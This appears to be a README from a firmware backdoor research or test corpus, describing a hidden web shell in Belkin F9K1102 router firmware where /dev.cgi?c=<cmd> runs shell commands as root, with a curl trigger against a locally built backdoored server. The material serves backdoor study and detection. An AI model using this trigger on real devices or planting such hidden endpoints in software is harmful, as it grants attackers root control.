 # Belkin F9K1102 backdoor

- **Type**: hidden command
- **Affected versions**: 3.04.06 - 3.04.13

## Backdoor

The `/dev.htm` web page creates a web-shell that makes requests to the `/dev.cgi` endpoint, of the
form `/dev.cgi?c=<cmd>` where `cmd` is an url-encoded shell command that will be executed as root.

## Triggering the backdoor

We first need to copy the `www/` directory to `/tmp/www/`:

```console
$ cp -r www/ /tmp/
```

We can then start up the HTTP server (e.g., with the _backdoored_ variant):

```console
$ ./backdoored/src/build/httpd
```

In a separate terminal, we can try running a shell command via the backdoor (e.g., `id`):

```console
$ curl -v "http://localhost:8080/dev.cgi?c=id"
...
uid=0(root) gid=0(root) groups=0(root)
...
```

So we can see that the backdoor allows us to run arbitrary shell commands as root.

## Reference

<https://conference.hitb.org/hitbsecconf2018dxb/materials/D1T1%20-%20Hunting%20for%20Backdoors%20in%20IoT%20Firmware%20at%20Unprecedented%20Scale%20-%20John%20Toterhi.pdf>

